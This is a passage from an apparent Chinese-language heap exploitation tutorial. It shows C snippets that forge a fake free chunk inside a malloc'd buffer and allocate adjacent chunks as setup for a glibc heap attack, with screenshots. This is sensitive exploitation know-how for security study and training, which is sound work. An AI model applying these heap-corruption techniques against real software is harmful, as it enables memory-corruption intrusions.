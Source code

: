 ```plain
intptr_t stack_var[4];
    intptr_t *a = malloc(0x38);
```

接下来我们在 `chunk a` 内伪造一个 `fake free chunk` ，这个chunk的 `prev_inuse` 位为0， `fd` 和 `bk` 指针都改为 `chunk a`的地址

```plain
a[0] = 0;    // prev_size (Not Used)
a[1] = 0x60; // size
a[2] = (size_t) a; // fwd
a[3] = (size_t) a; // bck
```

[![](assets/1702521085-64e31f09df64c1472f8d3eac253c8356.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230824-2316e5f0-9380-1.png)

新 malloc 了两个堆块，`chunk b` 大小 0x30，`chunk c` 大小0x100

```plain
uint8_t *b = (uint8_t *) malloc(0x28);

    int real_b_size = malloc_usable_size(b);

    uint8_t *c = (uint8_t *) malloc(0xf8);
```

[![](assets/1702521085-e424eb784e0f7d9b3573d2f7836091c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230842-2dc9a6d6-9380-1.png)
